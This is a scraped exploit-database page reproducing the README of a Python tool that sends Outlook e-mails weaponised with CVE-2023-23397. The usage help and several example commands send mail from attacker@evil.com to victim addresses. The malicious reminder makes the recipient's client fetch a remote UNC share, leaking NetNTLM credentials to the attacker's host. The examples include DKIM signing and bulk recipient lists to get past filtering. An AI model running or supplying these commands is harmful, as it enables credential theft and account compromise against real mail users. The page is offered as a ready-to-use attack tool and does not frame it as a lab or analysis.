 ```yaml
---
title: Exploit for Authentication Bypass by Capture-replay in Microsoft exploit
url: https://sploitus.com/exploit?id=C17B914E-10B9-52F8-B805-7A81740D0A5C&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-23
fetch_date: 2025-10-04T10:20:06.868658
---
```


# Exploit for Authentication Bypass by Capture-replay in Microsoft exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Improper Input Validation in Microsoft CVE-2023-23397

2023-03-22 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=C17B914E-10B9-52F8-B805-7A81740D0A5C
# CVE-2023-23397

This script allows to create TNEF-encoded Outlook e-mails with CVE-2023-23397 exploit payload and send them via pure SMTP - no need in COM objects or EWS.

I could not get `IPM.Schedule.Meeting.Request` message class to work properly (it generates both meeting and the reminder but does not respect `PidLidReminderOverride` property for some reason), so instead the script abuses `IPM.TaskRequest` class. It results into a malicious meeting reminder popup just like in the original exploit, but the recipient cannot view the message body nor the meeting details. In OWA, however, the e-mail looks like a regular message without an appointment.

Tested on Outlook365 16130.20218 and Outlook 2019 10395.20020. Note that TNEF attachment and headers may not make it through the antispam filters when sending the e-mails externally - I only tested this by sending e-mails directly (or via Postfix relay) to Exchange from the Linux machine in the same LAN.

## Usage

```
options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        smtp mail relay (host[:port]), default: localhost:25
  -f SENDER, --from SENDER
                        sender email address
  -t TO, --to TO        recipient email address(es), path to a file or comma-separated values
  -S SUBJECT, --subject SUBJECT
                        message subject
  -r ROOM, --room ROOM  meeting location (room name), default: Meeting Room #1
  -b BODY, --body BODY  plaintext message body (or path to file)
  --html HTML           HTML message body (or path to file)
  -p PATH, --path PATH  remote file path for NetNTLM exfiltration, e.g \\10.10.10.10\share\1.wav
  -a AUTH, --auth AUTH  username:password for AUTH command if authenticated send is required
  --codepage CODEPAGE   windows codepage (e.g. 1252=ASCII, 65001=Unicode) to encode HTML body (if any), default: 1252
  --ehlo EHLO, --helo EHLO
                        EHLO command argument (sender external hostname)
  -l LANG, --lang LANG  Content-Language header value, default: en-US
  --starttls            Use STARTTLS when communicating over plaintext SMTP
  --max-rcpts MAX_RCPTS
                        Maximum number of recipients per send attempt
  -v                    Enable debug output

DKIM message signing:
  --dkim-selector DKIM_SELECTOR
                        DKIM selector
  --dkim-key DKIM_KEY   DKIM private key file path
  --dkim-domain DKIM_DOMAIN
                        DKIM domain name, default: sender address part after @

```

## Examples

Send the e-mail from `attacker@evil.com` to `victim@example.com`:
```shell
python3 cve-2023-23397.py -s localhost:25 -p '\\xx.xx.xx.xx\share\1.wav' -f attacker@evil.com -t victim@example.com -S 'Test meeting' -b 'This is a test meeting, please ignore it.'
```

Send the e-mail to multiple recipients with opportunistic TLS and HTML body from file:
```shell
python3 cve-2023-23397.py -s mail.example.com:25 -p '\\xx.xx.xx.xx\share\1.wav' -f attacker@evil.com -t victim1@example.com,victim2@example.com -S 'Test meeting' -b 'This is a test meeting, please ignore it.' --html ./body.html --starttls
```

Send the e-mail with DKIM signature (requires `pip install dkimpy`) and custom domain in EHLO command to recipients loaded from file, three recipients per message:
```shell
python3 cve-2023-23397.py -s mail.example.com:25 -p '\\xx.xx.xx.xx\share\1.wav' -f attacker@evil.com -t ./recipients.txt -S 'Test Meeting' -b 'This is a test meeting, please ignore it.' --html ./body.html --starttls --max-rcpts 3 --dkim-key ./dkim.private --dkim-domain evil.com --dkim-selector default --ehlo mail.evil.com
```

Send the e-mail with domain credentials:
```shell
python3 cve-2023-23397.py -s mail.example.com:587 --auth 'EXAMPLE\attacker:12345678' -p '\\xx.xx.xx.xx\share\1.wav' -f attacker@example.com -t victim@example.com -S 'Test meeting' -b 'This is a test meeting, please ignore it.' --starttls
```

## Credits

- [Original research from MDSec](https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/)
- [tnefparse](https://github.com/koodaamo/tnefparse) for TNEF-related python code
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
